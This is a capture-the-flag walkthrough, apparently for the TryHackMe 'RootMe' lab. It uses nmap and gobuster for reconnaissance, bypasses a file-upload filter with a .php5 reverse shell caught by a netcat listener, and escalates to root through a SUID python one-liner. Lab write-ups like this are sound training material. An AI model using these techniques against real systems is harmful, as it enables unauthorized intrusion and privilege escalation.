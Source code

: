 # RootMe - THM 
**Description** | A ctf for beginners, can you root me?
 --    | --
**Difficulty** | easy
## nmap scan
```bash
$ nmap -sV  10.10.123.179
  Nmap scan report for 10.10.123.179
  Host is up (0.11s latency).
  Not shown: 998 closed tcp ports (reset)
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> **Notes:** SSH and HTTP are open. I started with the web service because it often provides useful attack paths.


## HTTP
Visit: `http://10.10.123.179`
![alt txet](https://github.com/user-attachments/assets/79162dad-117b-4ab2-950d-111f4a36f747)

## Gobuster

Let's enumerate common directories:
```bash
$ gobuster dir -u http://10.10.123.179 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.                    (Status: 200) [Size: 616]
/.hta                 (Status: 403) [Size: 276]
/.hta.                (Status: 403) [Size: 276]
/.htaccess.           (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htaccess.txt        (Status: 403) [Size: 276]
/.hta.txt             (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htpasswd.txt        (Status: 403) [Size: 276]
/.htpasswd.           (Status: 403) [Size: 276]
/css                  (Status: 301) [Size: 308] [--> http://10.10.123.179/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 307] [--> http://10.10.123.179/js/]
/panel                (Status: 301) [Size: 310] [--> http://10.10.123.179/panel/]
/server-status        (Status: 403) [Size: 276]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.123.179/uploads/]
```
> Notes: /panel and /uploads look interesting
## /panel Directory

![alt text](https://github.com/user-attachments/assets/4016356e-ea7a-46cd-beff-98b129749aa2)

### We can uplosd files here. Let's upload a web-shell to get a shell.

you can use this php reverse shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
### File upload: failed attempt then success
  ### 1. First attempt — upload .php web-shell

![alt text](https://github.com/user-attachments/assets/7e1f6514-0c75-4a63-bf98-11c06715efe3)

I tried uploading a standard PHP reverse shell file with a .php extension. Upload was rejected by the server.
         The server likely blocks .php uploads (extension filtering) or checks MIME/type.
     
 #### 2. Second attempt — change extension to
![alt text](https://github.com/user-attachments/assets/c2960494-7412-4211-a981-891a5846ead8)

I renamed the file to shell.php5 and uploaded again. Upload succeeded and the file was accessible/executable. Why this worked: Some servers accept alternative PHP extensions (e.g., .php5, .phtml) or have a whitelist of allowed extensions. In this case .php5 was treated as executable by the server while .php was filtered.

## /uploads Directory

![alt text](https://github.com/user-attachments/assets/5fa06fee-10f1-4e75-86c9-ad7e2766f07e)

Start a netcat listener from your attack machine.

```bash
$ nc -lvnp 1234
```
Visit the uploaded PHP URL `http://10.10.123.179/uploads/php-reverse-shell.php5` to trigger the reverse shell.
![alt text](https://github.com/user-attachments/assets/514e04dc-e33f-4758-883a-887dcb79be50)

## User flag

know let's search for user.txt flag
```bash
$ find -type f -name 'user.txt' 2>/def/null
/var/www/user.txt
```
![alt text](https://github.com/user-attachments/assets/57d9b7d5-6d40-4a0c-9c89-402657eceea6)

## PRIVILEGE ESCALATION
First we need to search for SUID permissions to escalate our privileges.

```bash
$ find -type f -perm -4000 2>/dev/null
```
![alt text](https://github.com/user-attachments/assets/4204c297-7d2f-4ba9-b9b8-8c616c4c5f2f)

A SUID binary (e.g., python) was discovered.

### Exploiting SUID python (GTFOBins method)
I looked up [GTFoBins](https://gtfobins.github.io/gtfobins/python/#suid) for `Python` SUID techniques and used the following:

```bash
bash-5.0$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# whoami
root
```
![alt text](https://github.com/user-attachments/assets/ea1cf006-5fde-4b50-8faa-74df105dec72)

**Explanation:** Executing the SUID python binary allowed spawning a shell with the effective UID of the binary owner (root). Using os.execl("/bin/sh", "sh", "-p") preserves the elevated privileges and spawns a root shell.

